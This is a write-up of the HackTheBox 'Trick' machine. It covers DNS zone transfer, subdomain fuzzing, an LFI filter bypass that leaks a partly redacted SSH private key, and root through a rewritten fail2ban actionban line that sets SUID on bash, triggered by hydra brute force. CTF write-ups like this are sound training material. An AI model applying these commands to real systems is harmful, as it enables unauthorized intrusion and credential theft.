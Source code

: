 ```yaml
---
title: "HackTheBox - Trick"
date: 2023-05-28 12:00:00 +/-0530
categories: [HackTheBox]
tags: [CTF, HTB]     # TAG names should always be lowercase
---
```


![LOGO](../assets/img/Trick/Trick.png)


## Introduction

- Name : Trick
- IP Adress : ``10.10.11.166``
- Difficulty : Easy
- Release date : 19/06/22

## Foothold

First, add ````Trick.htb```` to your hosts file.

### Scan

Let's start with a *Nmap* scan : 
````
nmap -A -p- 10.10.11.166
````

We can see there are four open ports : 
````
# Nmap 7.92 scan initiated Mon Oct 24 16:24:17 2022 as: nmap -p- -A -oN nmap.txt trick.htb
Nmap scan report for trick.htb (10.10.11.166)
Host is up (0.025s latency).
rDNS record for 10.10.11.166: Trick.htb
Not shown: 65531 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 61:ff:29:3b:36:bd:9d:ac:fb:de:1f:56:88:4c:ae:2d (RSA)
|   256 9e:cd:f2:40:61:96:ea:21:a6:ce:26:02:af:75:9a:78 (ECDSA)
|_  256 72:93:f9:11:58:de:34:ad:12:b5:4b:4a:73:64:b9:70 (ED25519)
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: debian.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
53/tcp open  domain  ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u7-Debian
80/tcp open  http    nginx 1.14.2
|_http-title: Coming Soon - Start Bootstrap Theme
|_http-server-header: nginx/1.14.2
Service Info: Host:  debian.localdomain; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 24 16:25:27 2022 -- 1 IP address (1 host up)
````

### DNS with *dig*

The DNS port look interesting, so we will check with *dig* :
````
dig axfr trick.htb @10.10.11.166
````

The output shows a new domain : ``preprod-payroll.trick.htb``. Add this in your hosts file, we will see later.

### Websites Enumeration

On the main page of the website, there is nothing interesting. 

Now, we will go on ``preprod-payroll.trick.htb``. We have a login page. When we fuzz the website, there are interesting pages as ``users.php`` and in the source code : ``manage_users.php`` with a parameter ``?id=``. Change to 1 and we have some creds !

![](../assets/img/Trick/password_web.png)

Now, go on the login page and connect. 

![](../assets/img/Trick/home_web.png)

But we are stuck here. Here was the guessing part because there is another domain to find. Try with *ffuf*.
````
ffuf -w /path/to/wordlist.txt -H 'Host: preprod-FUZZ.trick.htb' -u http://trick.htb -fw 1697
````
And we have a new domain : ``preprod-marketing.trick.htb``. When you fuzz the website, look at the URL:

![](../assets/img/Trick/url.png)

Here, there is a **LFI**. A little filter is present. Just bypass this one with ``..//``.

![](../assets/img/Trick/lfi.jpg)

### User flag

So we know that there is a user : ``mickael``. Let's see if there is a ssh key in his profile.

````
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz
c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G
YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+
4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/
Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4
1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC
DkelLDMdn--------------------------------------l6GjOz1OA1Y9UqH6P3ZZ0I0
+93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE
hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L
jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6
IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C
aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/
KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC
tnYxHsjmGaS-----------------------------------------ZvIEWAEY6qv7r455Ge
U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0
fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V
PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS
3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA
fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT
AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn
In16n3k----------------------------------------------------------Yr9DP
JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN
jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+
IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
````

Now connect with the ssh key, and we have the user flag.

![](../assets/img/Trick/proof1.jpg)

## Privilege Escalation

Let's check the sudo rights with a ``sudo -l`` : 

![](../assets/img/Trick/sudo-l.png)

We can see *fail2ban* in the command, so we can think there is a link between root and *fail2ban* for the privesc. 

When we go in ``/etc/fail2ban/action.d/``, we have the right to read and write because we belong to the group ``security(1002)``.

If we can write in this folder, we can modify some rules : 
- Modify the ``iptables-multiport.conf`` file
- Modify a line
- Be ban with ssh bruteforce
- Have a shell

So FIRST,
````
mv iptables-multiport.conf iptables.bak
cp iptables.bak iptables-multiport.conf
chmod 666 iptables-multiport.conf
````

![](../assets/img/Trick/manip.png)

Now, we can write on the ``actionban`` line:
````
chmod u+s /bin/bash
````

![](../assets/img/Trick/modif.png)

*Note : You can put also another command like a reverse shell.*

Important : You need to restart the *fail2ban* service with the sudo command !
````
sudo /etc/init.d/fail2ban restart
````
Like this:

![](../assets/img/Trick/restart.png)

All modifications are saved in the config. So now, we need to be ban !

Last Step: 

You have two options:
- Manually (just connect with ssh service and put bad password x5)
- **Hydra** 

With **hydra**:

Just use the syntax:
````
hydra -l root -P /path/to/wordlist.txt -s 22 10.10.11.166 ssh
````

Wait a little time and ...

![](../assets/img/Trick/shell_setuid.png)

..BOOM, we are root !

If you want a better shell, use ssh key in ``/root/.ssh/`` directory and connect.

![](../assets/img/Trick/Screenshot_2022-10-24_16-10-23.png)

Really root :)


## Conclusion

It was a good box for beginners with many step. The guessing side was a little hard to find and I was stuck a time.

I think it is a 4/5 for the note.

Thanks for reading !

[HackTheBox - Completed](https://www.hackthebox.com/achievement/machine/356950/477)
